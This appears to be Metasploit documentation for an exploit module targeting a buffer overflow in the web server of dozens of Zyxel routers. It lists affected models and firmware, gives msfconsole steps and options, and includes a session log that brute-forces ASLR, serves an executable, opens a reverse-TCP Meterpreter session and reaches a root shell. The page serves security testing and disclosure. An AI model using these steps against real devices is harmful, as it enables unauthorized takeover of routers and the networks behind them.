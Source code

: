 ## Vulnerable Application

This module exploits a buffer-overflow in multiple Zyxel devices. The vulnerabilitiy stems from missing string length
checks. The vulnerability can only be exploited from the LAN side, but does not require authentication. As ASLR is
activated, the libc address will be bruteforced. Thus the webserver will crash until successfull exploitation. On
average this process takes 20 minutes.

This vulnerability was discovered by Steffen Robertz, Gerhard Hechenberger, Stefan Viehboeck and Thomas Weber of the SEC
Consult Vulnerability Lab in Vienna. The full writeup of all vulnerabilities is available here:
[https://sec-consult.com/vulnerability-lab/advisory/multiple-critical-vulnerabilities-in-multiple-zyxel-devices/]


| Device       | Firmware  |
| ------------ | --------- |
| AMG1302-T11C | EOL       |
| VMG3925-B10C | EOL       |
| VMG8924-B10D | EOL       |
| VMG1312-B10D | EOL       |
| VMG3312-T20A | EOL       |
| VMG3625-T20A | EOL       |
| VMG3925-B10B | EOL       |
| VMG3925-B10C | EOL       |
| VMG3925-B30C | EOL       |
| VMG3926-B10A | EOL       |
| VMG5313-B10B | EOL       |
| VMG5313-B30B | EOL       |
| VMG8623-T50A | EOL       |
| VMG8823-B10B | EOL       |
| VMG8823-B30B | EOL       |
| VMG8823-B50B | EOL       |
| VMG8823-B60B | EOL       |
| VMG8924-B10D | EOL       |
| VMG8924-B30D | EOL       |
| PMG5317-T20A | EOL       |
| DX3301-T0 | V5.50(ABVY.3)C0 |
| DX5401-B0 | V5.17(ABYO.1)C0 |
| EMG3525-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG3525-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5523-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG5523-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5723-T50K | V5.50(ABOM.7)C0 |
| EX3301-T0 | V5.50(ABVY.3)C0 |
| EX5401-B0 | V5.17(ABYO.1)C0 |
| EX5501-B0 | V5.17(ABRY.2)C0 |
| LTE3301-PLUS | V1.00(ABQU.3)C0 |
| LTE7240-M403 | V2.00(ABMG.4)C0 |
| VMG1312-T20B | V5.50(ABSB.5)C0 |
| VMG3625-T50B | V5.50(ABPM.6)C0 |
| VMG3927-B50A | V5.17(ABMT.6)C0 |
| VMG3927-B60A | V5.17(ABMT.6)C0 |
| VMG3927-T50K | V5.50(ABOM.7)C0 |
| VMG4005-B50A | V5.15(ABQA.2)C0 |
| VMG8623-T50B | V5.50(ABPM.6)C0 |
| VMG8825-B50A | V5.17(ABMT.6)C0 |
| VMG8825-B50B | V5.17(ABNY.7)C0 |
| VMG8825-B60A | V5.17(ABMT.6)C0 |
| VMG8825-B60B | V5.17(ABNY.7)C0 |
| VMG8825-T50K | V5.50(ABOM.7)C0 |
| XMG3927-B50A | V5.17(ABMT.6)C0 |
| XMG8825-B50A | V5.17(ABMT.6)C0 |
| VPN2S | V1.20(ABLN.2)_00210319C1 |
| AX7501-B0 | V5.17(ABPC.1)C0 |
| EP240P | V5.40(ABVH.1)C0 |
| PMG5317-T20B | V5.40(ABKI.4)C0 |
| PMG5617GA | V5.40(ABNA.2)C0 |
| PMG5622GA | V5.40(ABNB.2)C0 |
| WX3100-T0 | V5.50(ABVL.1)C0 |
| WX3401-B0 | V5.17(ABVE.1)C0 |
| WSQ50 (Multy X) | V2.20(ABKJ.7)C0 |
| WSQ60 (Multy Plus) | V2.20(ABND.8)C0 |

## Verification Steps
 Follow these steps to exploit the target:

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: `use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce`
  4. Set RHOST, LHOST and SRVHOST
  5. Do `check`
  6. Do: `run`
  7. You should get a shell. On average this will take 20 minutes.
## Options
```
Module options (exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host
   

Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```



## Scenarios
```
msf6 > use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set LHOST XXX.XXX.XXX.XXX
LHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set RHOSTS XXX.XXX.XXX.XXX
RHOSTS => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > check
[+] XXX.XXX.XXX.XXX:80 - The target is vulnerable.
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set SRVHOST XXX.XXX.XXX.XXX
SRVHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Attempting to exploit VMG3312-T20A <= EOL
[*] Starting up our web service on XXX.XXX.XXX.XXX:8080 ...
[*] Using URL: http://XXX.XXX.XXX.XXX:8080/o
[*] Going to bruteforce ASLR, this will take a while...
[*] Trying to overflow the buffer, attempt 1
[*] Trying to overflow the buffer, attempt 2
[*] Trying to overflow the buffer, attempt 3
[*] Trying to overflow the buffer, attempt 4
[*] Trying to overflow the buffer, attempt 5
[*] Trying to overflow the buffer, attempt 6
[*] Trying to overflow the buffer, attempt 7
[*] Trying to overflow the buffer, attempt 8
[*] Trying to overflow the buffer, attempt 9
[*] Trying to overflow the buffer, attempt 10
[...]
[*] Trying to overflow the buffer, attempt 135
[*] Trying to overflow the buffer, attempt 136
[*] Trying to overflow the buffer, attempt 137
[*] Trying to overflow the buffer, attempt 138
[*] Trying to overflow the buffer, attempt 139
[+] XXX.XXX.XXX.XXX:80 - Sending executable to the router
[+] XXX.XXX.XXX.XXX:80 - A shell should connect soon!
[*] Sending stage (908480 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:55253) at 2022-07-24 19:03:41 +0200
[*] Server stopped.

meterpreter > shell
Process 9871 created.
Channel 1 created.
id
uid=0(root) gid=0
```
